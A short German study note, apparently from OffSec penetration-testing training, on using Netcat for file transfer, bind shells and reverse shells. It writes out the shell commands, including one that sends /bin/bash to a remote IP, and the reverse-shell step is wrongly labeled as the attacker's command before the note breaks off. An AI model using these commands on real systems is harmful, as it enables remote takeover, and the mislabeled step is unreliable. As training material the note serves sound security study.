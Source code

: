 # OffSec -  Netcat

## Datenübertragung
Mit #Netcat kann man auch Daten #übertragen. 
Hierzu ist wie folgt vorzugehen.

Auf dem Client wird eim TCP-Listening Port geöffnet und der Output in eine "incoming.exe" geschrieben

`nc -nlvp 4444 > incoming.exe`

Auf dem Host wird nun der folgende Befehl eingesetzt:

`nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe`

## Netcat Bindshell

Auf dem Opferrechner kann via #Netcat eine #BindShell gespawnt werden.

`nc -nlvp 4444 -e cmd.exe`

Mit der -e Option führt der Rechner nun das nachstehende Kommando aus, sobald sich jemand mit dem Listener verbindet.

Wenn man sich nun mittels dem Befehl:
`nc -nv 10.11.0.22 4444` 
Auf den Rechner schaltet, erhält man eine #BindShell.

## Netcat Reverseshell

Wenn nun nicht die Möglichkeit besteht eine #BindShell zu öffnen, da es zum Beispiel keine Möglichkeit gibt eingehenden Traffic des Routers an den Client weiterzuleiten, kann eine #Reverseshell eingesetzt werden.
Hierbei öffnet der Angreiffer einen #Listener auf seinem Client und das Opfer sendet eine Shell an den geöffneten Port

Angreifer:
`nc -nv 10.11.0.22 4444 -e /bin/bash` <- Wartet auf Verbindung

Opfer:
